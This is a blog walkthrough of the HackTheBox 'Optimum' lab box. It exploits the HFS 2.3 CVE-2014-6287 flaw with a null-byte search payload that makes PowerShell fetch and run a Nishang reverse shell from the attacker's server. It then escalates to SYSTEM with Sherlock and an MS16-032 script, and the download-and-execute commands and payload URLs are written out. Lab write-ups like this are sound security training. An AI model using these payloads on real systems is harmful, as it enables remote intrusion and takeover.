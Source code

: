 ```yaml
---
title: HackTheBox - Optimum (ft. PowerShell)
category: infosec
date: 2018-09-19
thumbnail: optimum-thumb.png
tags: htb,powershell,htbwalkthrough
description:
---
```


Optimum was a fun box with which while the write-up says to use Metasploit, can be done almost entirely with PowerShell. This makes it good practice for someone like me who has never used PowerShell to learn some basic things.

![image-alternative](https://beanpuppy.sirv.com/blog/img/optimum-nmap.png)

Our initial nmap scans only show one port open running HttpFileServer (HFS) version 2.3, which is vulnerable to [CVE-2014-6287](https://www.cvedetails.com/cve/CVE-2014-6287/). From the description it *"allows remote attackers to execute arbitrary programs via a %00 sequence in a search action."* Basically this just allows us to execute HFS template macros by just sending a null byte (%00) to the search item. Metasploit has the module **exploit/windows/http/rejetto_hfs_exec** to exploit this vulnerability and get a meterpreter shell, but to get a reverse shell in PowerShell, we are going to do it manually.

Using [this reference guide](http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands), we can see that the command we want is `{.exec | A.}`, where `A` is the file to run. In order to get a reverse shell, our script will want to look something like: `{exec | powershell.exe ReverseShell.ps1}`, which will run the "ReverseShell.ps1" script in PowerShell. The reverse shell script we will be using comes from [Nishang](https://github.com/samratashok/nishang), which is a collection of PowerShell scripts used for pen testing. Specifically we want to use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download it and add this line to the bottom of the file to make the `Invoke-PowerShellTcp` function run when the script is executed without any arguments:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444

Our IP address is `10.10.14.3` and we want to listen on port `4444`. In order to get this script into the target machine, we will setup our own HTTP server from where the file can be downloaded from. This can be done using a basic Python module form the command line:

    # Make sure you are in the same directory as the reverse shell script
    $ python -m SimpleHTTPServer # for Python 2
    $ python -m http.server # for Python 3

This will setup a HTTP server which we can access from our IP address `(10.10.14.3)` on port `8000` (by default). Okay, so now we need a way to cause our target machine to download and run this script. On a Linux box with Bash this would be a simple:

    curl http://10.10.14.3:8000/ReverseShell.sh | bash

But on PowerShell it looks a bit different:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')

Because this isn't intended to be a tutorial on PowerShell (I intend to do that later), for now I'll just say that this command is almost identical in what it does to the curl command above. That is - it downloads the reverse shell script and then runs it.

Now is finally time to do the exploit. We will open up netcat as our listener on port 4444 with "nc -lvnp 4444" and paste this into the search URL:

    /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+System.Net.WebClient).DownloadString('http%3a//10.10.14.4%3a8000/Invoke-PowerShellTcp.ps1').}  Without URL encoding it should look like this:

    /?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object+System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp.ps1').}

You can see at the start we use the null terminator (%00) then execute our command from `powershell.exe` located in `C:\Windows\SysNative\WindowsPowershell\v1.0\` which is the 64bit version of PowerShell.

![image-alternative](https://beanpuppy.sirv.com/blog/img/optimum-ncat.png)

We can now get `user.txt` from the current directory.

Normally to get root with Metasploit you could use **local\_exploit\_suggester**. But we will use [Sherlock](https://github.com/rasta-mouse/Sherlock), which is a script to find missing software patches for privesc. Download it and add this line to the bottom of the script:

    Find-AllVulns

Now we will invoke it from our shell with:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Sherlock.ps1')

This will go through every vulnerability, but the one we are interested in is this (MS16-032):

![image-alternative](https://beanpuppy.sirv.com/blog/img/optimum-sherlock.png)

`MS16-032` is a vulnerability could allow elevation of privilege if the Windows Secondary Logon Service fails to properly manage request handles in memory.

In order to exploit this vulnerability we will use [this script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) form the Empire exploitation framework for PowerShell. As usual add this line at the bottom to run the function when it is downloaded.

    Invoke-MS16032 -Command "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp-MS16032.ps1')"

As you can see we are creating another reverse shell, but because of the `MS16-032` exploit, we will run it as root. Also note that you can't use the same port that your current shell is using, so you will have to create another script and netcat instance with a different port. I will be using port `4448`.

Now we run the command from our shell to get the script:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-MS16032.ps1')

![image-alternative](https://beanpuppy.sirv.com/blog/img/optimum-root.png)

And now we are root. The flag is in `C:\Users\Administrator\Desktop\root.txt`.
